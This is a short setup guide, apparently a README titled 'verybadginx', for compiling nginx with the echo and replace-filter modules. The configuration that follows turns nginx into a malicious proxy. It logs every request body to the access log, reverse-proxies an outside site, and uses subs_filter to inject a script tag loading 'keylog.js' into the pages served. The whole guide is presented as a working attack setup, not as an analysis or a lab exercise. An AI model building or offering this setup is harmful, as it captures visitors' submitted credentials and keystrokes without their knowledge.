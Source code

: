 # verybadginx

#### Download nginx with modules

cd /tmp;
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz';
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz;
mv echo-nginx-module-0.58 /tmp/echo-nginx-module;
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz';
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz;
git clone https://github.com/openresty/replace-filter-nginx-module;

####  Create user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "sting to remplace" "sting to remplace<script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	


